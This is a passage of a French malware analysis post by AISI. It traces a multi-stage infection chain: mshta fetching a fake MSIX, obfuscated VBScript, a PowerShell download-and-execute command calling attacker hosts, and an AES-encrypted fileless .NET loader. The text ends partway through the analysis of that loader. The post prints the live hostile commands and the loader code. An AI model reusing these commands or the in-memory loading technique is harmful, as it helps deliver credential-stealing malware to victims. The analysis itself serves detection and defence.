Dans cet article, AISI présente l'analyse d'un script malveillant détecté par le service SOC et récupéré par les équipes de réponse à incident. 

AISI a reçu une alerte d'un EDR signalant qu'un processus suspect a utilisé mshta pour tenter de télécharger et d’exécuter une charge utile. En effet, l'EDR a bloqué la commande suivante : 

`"C:\Windows\system32\mshta.exe" http://104.0xA4.55.96/fetch.msix`

Cette commande permet la récupération de `fetch.msix` hébergé à l'adresse `104.0xA4.55.96`. L'analyse de ce binaire montrera qu’il ne s’agit pas d’une archive MSIX légitime, mais d’un conteneur HTML embarquant du code VBScript fortement obfusqué, dont l’unique objectif est de déclencher une chaîne d’exécution malveillante en plusieurs étapes.



L’analyse met en évidence une architecture modulaire en plusieurs étapes, où chaque composant joue un rôle précis dans la progression de l’infection : récupération de la charge de prochaine étape, déchiffrement, reconstruction du code et exécution en mémoire. Le payload final implémente des techniques avancées telles que la compilation dynamique de code C# et le process hollowing, permettant d’injecter une charge malveillante dans un processus légitime.

L’objectif de cet article est de détailler pas à pas cette chaîne d’exécution, depuis le script initial jusqu’au mécanisme d’injection en mémoire, afin de mieux comprendre les techniques employées et d’en dégager des axes de détection et de prévention.

# Analyse de la charge de première étape 

## Encodage de l'IP avec de l'hexadécimal

Il est intéressant de noter qu'une partie de l'IP a été écrite avec des caractères hexadécimaux à des fins d'obfuscation :

`104.0xA4.55.96`

Cette technique est utilisée pour contourner certaines détections et blocages reposant sur des indicateurs statiques (IOC) : 
- IOC  basés sur des regex simple 
- filtres URL
- blacklist
  
Décodée, l'IP est la suivante : `104.164.55.96`

[VirusTotal](https://www.virustotal.com/gui/ip-address/104.164.55.96/detection) remonte un score peu élevé de 9/94 au moment de la rédaction de cet article. Toutefois, les commentaires de la communauté remontent des rapports [ThreatFox](https://threatfox.abuse.ch/ioc/1637358/) et [Joe SandBox](https://www.joesandbox.com/analysis/1802522/0/html) qui attribuent cette IP au stealer **[Rhadamanthys](https://malpedia.caad.fkie.fraunhofer.de/details/win.rhadamanthys)**. 

## Récupération de la charge malveillante fetch.msix

Depuis une VM Windows et derrière un VPN, les équipes d'AISI ont été en mesure de récupérer la charge `fetch.msix`.

Microsoft définit le format MSIX comme un format d'empaquetage d'application spécifique aux applications Windows. Or, lors de la vérification de la nature de `fetch.msix`, il est observé qu'il s'agit d'un format HTML : 

``` bash
❯ file fetch.msix
fetch.msix: HTML document, ASCII text
```

En effet, lorsque le fichier est ouvert dans un lecteur de texte, les premières lignes de code indiquent qu'il s'agit d'un fichier HTML embarquant un langage de scripting nommé VBScript :

```html 
<html>

<head>

  <script language="VBScript">

  [...]

    </script>

</head>

<body>

</body>

</html>
```

Deuxième point intéressant est le nombre de lignes de ce binaire : 40 577. 

```bash
❯ wc fetch.msix
  lignes  mots  octets  fichier
  40576   92133 1556554 fetch.msix
```

La première refléxion est de supposer la présence de junk code, c'est à dire du code  qui ne s’exécute pas ou, s’il s’exécute, ne change pas la fonctionnalité du code. C'est ce qu'il est en effet observé :



Plusieurs milliers de lignes de code forment des blocs réguliers et similaires indicateurs de junk code.

Cette technique d'évasion est utilisée par les acteurs malveillants pour obscurcir le fonctionnement d'un logiciel malveillant et pour rendre l’analyse plus difficile et chronophage.

### Identification des lignes malveillantes

Parmi ces milliers de lignes de junk code, le bloc qui nous intéresse est le suivant : 

```vbs
Sub verb_BIsOWIvs()

Set wmi = GetObject(Chr(119) & Chr(105) & Chr(110) & Chr(109) & Chr(103) & Chr(109) & Chr(116) & Chr(115) & Chr(58))

Set startup = wmi.Get(Chr(87) & Chr(105) & Chr(110) & Chr(51) & Chr(50) & Chr(95) & Chr(80) & Chr(114) & Chr(111) & Chr(99) & Chr(101) & Chr(115) & Chr(115) & Chr(83) & Chr(116) & Chr(97) & Chr(114) & Chr(116) & Chr(117) & Chr(112)).SpawnInstance_

startup.ShowWindow = 0

wmi.Get(Chr(87) & Chr(105) & Chr(110) & Chr(51) & Chr(50) & Chr(95) & Chr(80) & Chr(114) & Chr(111) & Chr(99) & Chr(101) & Chr(115) & Chr(115)).Create _

    Chr(112) & Chr(111) & Chr(119) & Chr(101) & Chr(114) & Chr(115) & Chr(104) & Chr(101) & Chr(108) & Chr(108) & Chr(46) & Chr(101) & Chr(120) & Chr(101) & Chr(32) & Chr(45) & Chr(99) & Chr(32) & Chr(105) & Chr(101) & Chr(120) & Chr(32) & Chr(40) & Chr(105) & Chr(119) & Chr(114) & Chr(32) & Chr(40) & Chr(39) & Chr(77) & Chr(86) & Chr(79) & Chr(115) & Chr(99) & Chr(79) & Chr(107) & Chr(87) & Chr(118) & Chr(71) & Chr(39) & Chr(32) & Chr(45) & Chr(114) & Chr(101) & Chr(112) & Chr(108) & Chr(97) & Chr(99) & Chr(101) & Chr(32) & Chr(39) & Chr(77) & Chr(86) & Chr(79) & Chr(115) & Chr(99) & Chr(79) & Chr(107) & Chr(87) & Chr(118) & Chr(71) & Chr(39) & Chr(44) & Chr(32) & Chr(39) & Chr(104) & Chr(116) & Chr(116) & Chr(112) & Chr(58) & Chr(47) & Chr(47) & Chr(114) & Chr(101) & Chr(110) & Chr(116) & Chr(97) & Chr(108) & Chr(112) & Chr(109) & Chr(115) & Chr(46) & Chr(99) & Chr(111) & Chr(109) & Chr(39) & Chr(41) & Chr(32) & Chr(45) & Chr(85) & Chr(115) & Chr(101) & Chr(66) & Chr(97) & Chr(115) & Chr(105) & Chr(99) & Chr(80) & Chr(97) & Chr(114) & Chr(115) & Chr(105) & Chr(110) & Chr(103) & Chr(41), _

    Null, _

    startup

End Sub


  Sub Window_OnLoad()

Call verb_BIsOWIvs()

Window.Close

  End Sub
```

Ce bloc est différenciable par rapport aux blocs de junk code pour deux raisons : 
1. **Taille** : ce bloc est moins dense que les autres blocs observés dans le code
2. **Contenu** : la structure en Chr(x) n'est observée que dans ce bloc de code

La fonction Chr(x) met en œuvre une technique d’obfuscation consistant à reconstituer des chaînes de caractères lettre par lettre. Chaque appel à Chr(x) représente un caractère ASCII, défini par un code numérique unique.

### Décodage du bloc obfusqué 

Pour décoder ce bloc, le script Python suivant est utilisé : 

```python
import re

# Ouverture du fichier contenant le code VBA obfusqué
with open("extractfetch.msix", "r", encoding="utf-8") as f:
    vba_code = f.read()

# Extraction de tous les nombres dans Chr(...)
numbers = re.findall(r'Chr\((\d+)\)', vba_code)

# Conversion de chaque nombre en caractère ASCII
decoded = ''.join([chr(int(num)) for num in numbers])

# Affichage du résultat
print(decoded)

# Sauvegarde dans un fichier
with open("decoded_script.txt", "w", encoding="utf-8") as out:
    out.write(decoded)

print("résultat dans 'decoded_script.txt'")
```

Le déchiffrage du bloc encodé donne le résultat suivant ; 

```powershell
winmgmts:Win32_ProcessStartupWin32_Processpowershell.exe -c iex (iwr ('MVOscOkWvG' -replace 'MVOscOkWvG', 'http://rentalpms.com') -UseBasicParsing)% 
``` 
Cette commande permet de lancer PowerShell via WMI afin de télécharger puis exécuter du code depuis rentalpms[.]com :

1. Appel à WMI : `winmgmts:Win32_ProcessStartupWin32_Process`
2. Démarrage PowerShell : `powershell.exe -c`
3. Téléchargement du contenu depuis Internet (Invoke-Expression) : `iex`
4. Et exécution du contenu en mémoire : `iwr`
5. Depuis `MVOscOkWvG` qui sera `-replace` par `http://rentalpms.com` (obfuscation)

## Conclusion sur la charge de première étape 

La commande **mshta** bloquée permet de récupérer et d'éxécuter le contenu d'un fichier `fetch.msix` hébergé à l'IP **104.164.55.96**. S'il est exécuté, `fetch.msix` va récupérer ce qui est supposé être une charge de deuxième étape hébergée sur le domaine `rentalpms.com` grâce à la commande PowerShell `powershell.exe -c iex iwr`. Cette commande permet l'exécution du contenu de `rentalpms.com`en mémoire afin de ne pas laisser de traces du binaire sur le disque.

# Récupération de la charge de deuxième étape

Depuis une VM Windows et derrière un VPN, les équipes d'AISI ont été en mesure de récupérer la charge hébergée sur `rentalpms.com`.

La nature du fichier n'est pas parlante. Mais le nombre de mots par rapport au nombre de lignes un peu plus : 8864 lignes pour 38951 mots.

```bash
❯ file rentalpms.malicious
rentalpms.malicious: ASCII text, with CRLF line terminators

❯ wc rentalpms.malicious
  lignes  mots  octets  fichier
   8864   38951 2880405 rentalpms.malicious
```

Encore une fois, ce ratio laisse à supposer la présence de junk code. 

## Identification des lignes malveillantes

Parmi les 8000 lignes de contenu obfusqué, il a été trouvé la charge malveillante encodée en Base64 et les fonctions en lien avec cette dernière : 

```powershell
$lRnkGVQYnvancSu = [Convert]::FromBase64String("6WEEPSc[...]") # clé AES
$khXVeHQmPVDWUVa = [Convert]::FromBase64String("UsIFRCZ[...]") # vecteur d'initialisation
$yMyJpmGHeEpXdkQ = [Convert]::FromBase64String("qID8gsE[...]") # payload chiffré

$HitbFtUQnCvqJLf = [System.Security.Cryptography.Aes]::Create()
$HitbFtUQnCvqJLf.Key = $lRnkGVQYnvancSu
$HitbFtUQnCvqJLf.IV = $khXVeHQmPVDWUVa]
$IDiRmHCzChoVPvU = $HitbFtUQnCvqJLf.CreateDecryptor()
   
$aWGIAuhRLwPXOwp = New-Object System.IO.MemoryStream
$EZphizeaAneJQTq = New-Object System.Security.Cryptography.CryptoStream($aWGIAuhRLwPXOwp, $IDimHCzChoVPvU, [System.Security.Cryptography.CryptoStreamMode]::Write)
$EZphizeaAneJQTq.Write($yMyJpmGHeEpXdkQ, 0, $yMyJpmGHeEpXdkQ.Length)
$EZphizeaAneJQTq.Close()
$xfusBzJbkKBLwvx = $aWGIAuhRLwPXOwp.ToArray()
  
$YVcnXnOtDiDASrP = [System.Reflection.Assembly]::Load($xfusBzJbkKBLwvx)
$KNcZLUJamRcmSMU = $YVcnXnOtDiDASrP.EntryPoint
$KNcZLUJamRcmSMU.Invoke($null, @())
```

### Moteur de déchiffrement

Dans ce bloc encodé, nous observons tout d'abord la création et la configuration du moteur de déchiffrement :

```powershell
$lRnkGVQYnvancSu = [Convert]::FromBase64String("6WEEPSc[...]") # clé AES
$khXVeHQmPVDWUVa = [Convert]::FromBase64String("UsIFRCZ[...]") # vecteur d'initialisation

$HitbFtUQnCvqJLf = [System.Security.Cryptography.Aes]::Create() # initialisation du moteur de déchiffrement
$HitbFtUQnCvqJLf.Key = $lRnkGVQYnvancSu
$HitbFtUQnCvqJLf.IV = $khXVeHQmPVDWUVa]
$IDiRmHCzChoVPvU = $HitbFtUQnCvqJLf.CreateDecryptor() # déchiffreur
```

La clé AES et le vecteur d'initialisation sont d’abord décodés depuis des chaînes Base64. Cette opération permet de dissimuler des données sensibles dans le script, tout en évitant l’utilisation de caractères non imprimables qui pourraient trahir leur présence.

Une fois les variables décodées, le script crée un objet AES à l’aide de la bibliothèque cryptographique de .NET **System.Security.Cryptography**. Concrètement, cette étape consiste à initialiser un “moteur” de déchiffrement vierge de toute configuration.

Ce moteur est ensuite paramétré avec la clé AES précédemment décodée et assignée à la propriété **Key**, tandis que le vecteur d’initialisation est injecté dans la propriété **IV**.

Enfin, la méthode **CreateDecryptor()** génère un objet capable de déchiffrer un flux de données en utilisant ce moteur de déchiffrement. Cet objet sera utilisé dans les étapes suivantes pour traiter le payload chiffré.



### Mécanisme d'exécution en mémoire

Dans un second temps, le script met en place mécanisme permettant de traiter le payload chiffré directement en mémoire :

```powershell
$IDiRmHCzChoVPvU = $HitbFtUQnCvqJLf.CreateDecryptor() # déchiffreur AES

$aWGIAuhRLwPXOwp = New-Object System.IO.MemoryStream
$EZphizeaAneJQTq = New-Object System.Security.Cryptography.CryptoStream($aWGIAuhRLwPXOwp, $IDimHCzChoVPvU, [System.Security.Cryptography.CryptoStreamMode]::Write)
```

Un premier objet est créé avec **System.IO.MemoryStream**  afin de stocker les données déchiffrées directement en mémoire. **MemoryStream** sera utilisé avec le déchiffreur AES afin de créer l' opération cryptographique **CryptoStream**. La configuration en mode **Write** de ce **CryptoStream** va permettre de recevoir les données chiffrées, de les déchiffrer à la volée, puis de les écrire automatiquement en clair dans le **MemoryStream**.

Le payload malveillant sera ensuite injecté dans ce **CryptoStream** grâce au **.Write** : 

```powershell
$yMyJpmGHeEpXdkQ = [Convert]::FromBase64String("qID8gsE[...]") # payload chiffré
$EZphizeaAneJQTq.Write($yMyJpmGHeEpXdkQ, 0, $yMyJpmGHeEpXdkQ.Length)
$EZphizeaAneJQTq.Close()
```
Et pour terminer, le payload sera chargé en tant qu'assembly afin de l'exécuter en mémoire :

```powershell
$aWGIAuhRLwPXOwp = New-Object System.IO.MemoryStream
------
$xfusBzJbkKBLwvx = $aWGIAuhRLwPXOwp.ToArray()
------
$YVcnXnOtDiDASrP = [System.Reflection.Assembly]::Load($xfusBzJbkKBLwvx)
$KNcZLUJamRcmSMU = $YVcnXnOtDiDASrP.EntryPoint
$KNcZLUJamRcmSMU.Invoke($null, @())
```

Le script récupère le contenu du **MemoryStream** afin de stocker le contenu dans un tableau grâce à la méthode **.ToArray**. Puis ce contenu sera traité comme un assembly .NET. En effet, la méthode **Assembly::Load()** charge directement en mémoire le contenu du tableau, sans avoir besoin de l’écrire sur le disque. Le point d'entrée est récupéré grâce à **EntryPoint** puis exécuté grâce à l'appel à **Invoke()**.



## Conclusion sur la charge de deuxième étape 

Cette séquence met en évidence un loader PowerShell fileless conçu pour déployer une charge .NET chiffrée sans jamais écrire de binaire sur le disque. En combinant **encodage Base64**, **chiffrement AES** et **chargement dynamique via Assembly.Load()**, l’attaquant s’assure que le payload final n’existe qu’en mémoire, réduisant considérablement les possibilités de détection basées sur l’analyse de fichiers ou les artefacts disque.

# Analyse du payload exécuté en mémoire

## Récupération du payload malveillant

Le payload n’est pas directement présent sous forme de binaire lisible dans le script : il est d’abord stocké comme une très longue chaîne Base64, puis décodé en tableau d’octets et exécuté en mémoire :

```powershell
$yMyJpmGHeEpXdkQ = [Convert]::FromBase64String("qID8gsEMRMkyhaZXQ6MsnDACOdlYBTBQmJezFyOKK4k9fNTxK0iWEomWx+M0[...]")
```

Le script PowerShell suivant a permis de récupérer le payload malveillant afin de l'analyser : 

```powershell
# Payload chiffré
$payload_b64 = "qID8gsEMRMkyhaZXQ6MsnDACO[...] 

# Clé et IV
$key = [Convert]::FromBase64String("6WEPS[...]"")
$iv  = [Convert]::FromBase64String("UsIFR[...]")

# Décodage Base64
$data = [Convert]::FromBase64String($payload_b64)

# AES
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $key
$aes.IV = $iv

$decryptor = $aes.CreateDecryptor()

# Déchiffrement
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

$cs.Write($data, 0, $data.Length)
$cs.Close()

# Récupération du payload
$payload = $ms.ToArray()

# Sauvegarde sur disque
# Récupération du payload
$payload = $ms.ToArray()

Write-Host "Taille du payload :" $payload.Length
Write-Host "Répertoire courant :" (Get-Location)

$outFile = "$env:USERPROFILE\Desktop\payload.exe"
[IO.File]::WriteAllBytes($outFile, $payload)

Write-Host "Payload extrait :" $outFile
```

## Identification basique du binaire

Le premier élément remonté par l'analyse du payload est son empreinte : [e1a175bf452763d433e424ef3306e051dc9b1cb47f06e1a90f77b1f0ec434f02](https://www.virustotal.com/gui/file/e1a175bf452763d433e424ef3306e051dc9b1cb47f06e1a90f77b1f0ec434f02/detection)



[VirusTotal](https://www.virustotal.com/gui/file/e1a175bf452763d433e424ef3306e051dc9b1cb47f06e1a90f77b1f0ec434f02/detection) associe ce hash à plusieurs familles de logiciels malveillants de type stealer, notamment *VidarStealer* et *LummaStealer*, ainsi qu’à un cheval de Troie identifié comme *Mardom*. 

> Pour rappel, l’infrastructure hébergeant la charge de première étape a été publiquement attribuée à Rhadamanthys, un loader connu pour diffuser notamment le stealer Vidar, ce qui constitue un premier élément de corrélation contextualisée.

## Analyse initiale 

L’ouverture du binaire dans **dnSpy** confirme qu’il s’agit d’un assembly .NET 64 bits. Le point d’entrée n’est pas exposé via une méthode `Main` classique, mais via une méthode nommée `TTGPKUBNKk`, rattachée au type global <Module>.


```bash 
> file payload_rentalpms.malicious.exe
payload_rentalpms.malicious.exe: PE32+ executable (GUI) x86-64 Mono/.Net assembly, for MS Windows, 2 sections
```



> **dnSPy** est un déboggueur .NET et un éditeur d'assembly

L’absence d’un point d’entrée conventionnel, combinée à un nom de méthode fortement aléatoire, constitue un indicateur d’obfuscation. Cette construction est observée dans les loaders .NET, dont l’objectif est davantage de préparer l’exécution de code que d’implémenter directement une logique malveillante complète.

Par ailleurs, l’analyse des métadonnées révèle l’absence de timestamp exploitable, ce qui suggère une altération volontaire de l’en-tête PE afin de limiter les possibilités de corrélation temporelle.

## Structure interne et obfuscation

L'analyse de la structure interne met en évidence un déséquilibre entre le nombre de méthodes et le nombre de types. Ce ratio anormalement élevé est caractéristique de la présence de junk code, inséré dans le but de compliquer la rétro‑ingénierie et de perturber l’analyse statique automatisée.

Les métadonnées du fichier fournissent également des informations intéressantes :


```powershell
PS C:\Users\hell0\Desktop> (Get-Item .\payload_rentalpms.malicious.exe).VersionInfo | Format-List *

[...]
Comments           : CrystalPortRage
CompanyName        : CrystalPortRage
[...]
InternalName       : Stub.exe
[...]
Language           : Langue neutre
LegalCopyright     : Copyright © CrystalPortRage 2026
LegalTrademarks    : CrystalPortRage
OriginalFilename   : Stub.exe
```

 Les chaînes de caractères de **CrystalPortRage** et **Stub.exe**, également décrites dans [VirusTotal](https://www.virustotal.com/gui/file/e1a175bf452763d433e424ef3306e051dc9b1cb47f06e1a90f77b1f0ec434f02/detection), renforcent l’hypothèse d’un loader .NET. Le terme **stub** est couramment utilisé pour désigner un programme intermédiaire chargé de déployer ou d’exécuter une charge utile plus complexe.

L’ensemble de ces éléments pointent un binaire malveillant de deuxième étape, dont la vocation n’est pas d’embarquer les fonctionnalités finales de la menace, mais d’agir comme un loader .NET obfusqué.

## Point d’entrée réel & fonction relais

Le point d'entrée exposée via la méthode `TTGPKUBNKk`, n’implémente pas directement la logique principale. Il agit comme une fonction de relais vers d’autres méthodes. 

 

Ce type de construction, fréquent dans les binaires obfusqués, permet de fragmenter le flux d’exécution et de compliquer l’analyse statique en masquant les routines critiques.

Si le relais est suivi jusqu'au bout, il permet de découvrir une nouvelle fonction :



Cette fonction agit également comme fonction relais et conduit à découvrir le premier pivot fonctionnel : 



Les fonctions appelées ici correspondent à plusieurs fonctions d'intérêt pour la compréhension du code malveillant.

## Chargement d’une ressource embarquée

Une première fonction d’intérêt identifiée dans l’échantillon permet de charger une ressource embarquée dans l’assembly .NET :



Elle utilise pour cela la méthode `GetManifestResourceStream()` appliquée à l’assembly en cours d’exécution (`GetExecutingAssembly()`).

La ressource visée est 
1. ouverte sous forme de flux et copiée dans un MemoryStream : `MemoryStream memoryStream = new MemoryStream();`
2. puis renvoyée sous forme d’un tableau d’octets (byte[]): `manifestResourceStream.CopyTo(memoryStream);` 

Ce mécanisme indique que certaines données nécessaires à l’exécution sont stockées directement dans le binaire, et non récupérées depuis une source externe au moment de l’exécution.

## Utilisation d'une image Bitmap comme conteneur de données

Une seconde fonction d'intérêt identifiée exploite la classe **Bitmap** afin d’interpréter le tableau d’octets précédemment obtenu comme une image valide : 



La méthode reçoit en entrée un tableau d’octets `byte[]` qui est chargé dans un objet `MemoryStream`, puis interprété comme une image **bitmap** valide. Une fois l’image chargée en mémoire, celle‑ci est parcourue pixel par pixel afin de reconstruire un nouveau tableau d’octets.

Ce comportement indique que la charge malveillante est dissimulée au sein d’une image, utilisée comme conteneur pour une charge secondaire ou des données nécessaires à l’exécution. 

## Mécanisme de déchiffrement symétrique 

La fonction appelée après l'extraction de l'image bitmap est celle qui va permettre le déchiffrement du tableau d'octets :  



Elle prend en entrée le tableau d’octets représentant des données chiffrées comme l'indique la présence du `byte[]` et deux chaînes de caractères (**strings**) identifiées comme la clé et le vecteur d’initialisation. 

Ces paramètres sont utilisés pour initialiser un moteur de déchiffrement AES qui va permettre le déchiffrement des données au moyen d’un `CryptoStream`, directement en mémoire, et restituées sous la forme d’un nouveau tableau d’octets. 

Cette étape montre que les données extraites depuis l’image bitmap ne sont pas directement exploitables : elles sont d’abord dissimulées dans l’image, puis protégées par chiffrement avant d’être reconstruites sous une forme binaire exploitable par le programme.

## Compilation et exécution dynamique en mémoire

La fonction appelée en dernière étape montre le mécanisme clé de compilation dynamique de code C# en mémoire

